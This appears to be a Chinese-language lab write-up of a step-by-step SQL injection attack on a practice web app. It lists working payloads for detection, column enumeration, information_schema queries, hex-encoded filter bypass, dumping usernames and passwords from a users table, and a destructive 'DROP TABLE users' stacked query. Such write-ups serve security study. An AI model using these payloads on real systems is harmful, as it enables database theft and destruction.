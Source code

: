 # 第一步：检测与服务器交互位置

进来页面，啥都没有

与服务器交互的东西都没没看到，就一个写好了的提交按钮。url也变成的post.

原本的样子：

<img src="./imgs/20240914_044542.png" style="zoom:50%;" />

借助工具看一下内容咯：

![20240914_045128](./imgs/20240914_045128.png)



# 第二步：探测是否存在漏洞

## 方法1：基于布尔的盲注检测（and or || &）



### 检测数字类型（基于1=2错误类型的报错，说明是存在漏洞）

```
1 and 1 = 1
1 and 1 = 2
```

<img src="./imgs/20240914_050859.png" alt="20240914_050859" style="zoom:67%;" />





### 检测字符串类型（语法报错，由于 ' 转义了，无法判断）

```
'
"
```



![20240914_064909](./imgs/20240914_064909.png)

![20240914_065155](./imgs/20240914_065155.png)

## 方法2：基于报错的检测方法（有错误返回）

![20240914_064909](./imgs/20240914_064909.png)



## 方法3：基于UNION联合查询的检测

```
union select 1 #
```

<img src="./imgs/20240914_051850.png" alt="20240914_051850" style="zoom:67%;" />

## 方法4: 基于时间的盲测的检测（时间函数sleep）

```
'and (select * from (select(sleep(20)))a)--+
```

<img src="./imgs/20240914_052130.png" alt="20240914_052130" style="zoom:50%;" />

## 方法5:基于叠对查询的检测（；）

使用";"结束前面的语句，自己在写一个查询语句。

```
1'; DROP TABLE users; -- 
```

![20240914_052453](./imgs/20240914_052453.png)

# 第三步：推测后台查询语句

```sql
由于没有探测出闭合类型：
select * from table where id =;
select * from table where id ='';
select * from table where id ="";

id=-1 union select 1,(SELECT GROUP_CONCAT(user,password SEPARATOR 0x3c62723e) FROM users)&Submit=Submit
```



# 第四步：查询显示位

## 方式1：根据排序order by 数字类型(数字类型的注入)：

```
直接执行了我们的语句，确定是，数字类型的注入
1 order by 2%23
1 order by 3%23

根据查询在第二列与第三列之前的存在错误的临界点，说明最大显示位位第二列
```

![20240914_070925](./imgs/20240914_070925.png)

![20240914_071418](./imgs/20240914_071418.png)

## 方式2：根据联合查询：union select

```sql
根据第1列进行联合显示列数查询
1 union select 1%23
1 union select 1,2%23
列数不断增加，显示为一共为2列
```

![20240914_071908](./imgs/20240914_071908.png)

![20240914_072139](./imgs/20240914_072139.png)



# 第五步：根据显示位，查询各种数据库函数。

数据库版本version()

```
id=1 union select 1, version() %23
```

![20240914_072541](./imgs/20240914_072541.png)



查询当前数据库名称 database()

```
1 union select 1,database() %23
```

![20240914_072859](./imgs/20240914_072859.png)



# 第六步：尝试查询源数据库内容 information_schema。

## 查询当前数据库的表名称

```
1 union select 1, group_concat(table_name) from information_schema.tables where table_schema = database() %23
```

![20240914_073941](./imgs/20240914_073941.png)



## 查询源数据库的所有表

```sql
1 union select (table_name collate utf8_unicode_ci),(table_schema collate utf8_unicode_ci) from information_schema.tables %23
```

![20240914_075533](./imgs/20240914_075533.png)



## 统计源数据库的数据库表数量

![20240914_075119](./imgs/20240914_075119.png)



# 第七步：根据数据名称与表名称查询字段名称

```sql
由于过滤了单双引号，用十六进制绕过

1 union select 1, group_concat(column_name) from information_schema.columns where table_schema = database() and table_name = 0x7573657273 %23
```

![20240914_084227](./imgs/20240914_084227.png)



# 第八步：获取数据表字段内容

```sql
1 union select 1, concat_ws(':',user_id,first_name,last_name,user,password,avatar,last_login,failed_login) from users %23
```

![20240914_084843](./imgs/20240914_084843.png)
